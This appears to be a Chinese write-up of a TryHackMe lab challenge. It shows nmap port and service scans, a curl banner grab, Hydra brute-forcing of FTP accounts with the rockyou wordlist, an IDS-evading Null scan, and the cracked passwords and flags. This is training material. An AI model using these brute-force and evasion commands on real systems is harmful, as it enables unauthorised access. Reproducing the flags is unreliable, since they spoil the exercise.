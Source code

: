 # 挑战赛room

使用此挑战来测试您对网络安全模块中获得的技能的掌握程度。这个挑战中的所有问题都可以只使用，和来解决。nmap,telnet,hydra


### 1.靶机打开的小于10000的最大端口是？

    nmap -sS -p1-9999 10.10.29.30

答案是8080

### 2.有一个开启的端口高于10000，请问是哪个？

    nmap -sS -p10000-65535 10.10.29.30

答案是10021

### 3.藏在http服务标头的flag是什么？

上面的扫描可知，http服务监听到80端口，直接访问即可：

    curl 'http://10.10.29.30:80' -v

THM{web_server_25352}

### 4.SSH服务器标头中隐藏的flag是什么？

直接通过nmap探测服务

    nmap -sV 10.10.29.30 --version-all

THM{946219583339}

### 5.我们有一个在非标准端口上侦听的 FTP 服务器。FTP 服务器的版本是什么？

我们刚刚扫端口的结果中只有10021是未知的

    nmap -sV -p10021 10.10.29.30

vsftpd 3.0.3

### 6.我们使用社交工程学学习了两个用户名：eddie和quinn。通过 FTP 访问, 隐藏在这两个帐户文件之一中的flag是什么？

用hydra挨个爆，然后登录ftp找flag

    hydra -l eddie -P /usr/share/wordlists/rockyou.txt 10.10.29.30 ftp -s 10021

eddie的密码：jordan，登录ftpdir啥也没有，继续爆下一个。

quinn的密码：andrea

登录ftp：

    ftp quinn@10.10.29.30 10021

    > dir
    看到ftp_flag.txt
    > get ftp_flag.txt ./flag
    > bye

然后读取./flag得到：THM{321452667098}

### 7.浏览显示一个小挑战，一旦你解决了它，它就会给你一个flag。flag是什么？http://10.10.29.30:8080

进入网页，发现：

    你的任务是使用Nmap扫描10.10.29.30（这台机器）
    尽可能隐蔽，避免被IDS检测到。

我一开始想到是空闲扫描，然后开始尝试扫全网10.10.0.0/16存活主机看看有没有什么发现，结果扫出确实是扫出了全网存活的主机，数都数不过来。

然后尝试其他tcp FLAGS置位的数据包

    nmap -sA、-sW、-sS、-sT 、-sF、-sX -sN
    nmap --scanflags <FLAGS>

都尝试了个遍之后发现tcp Null flag不会被IDS检测到，-sN

THM{f7443f99}
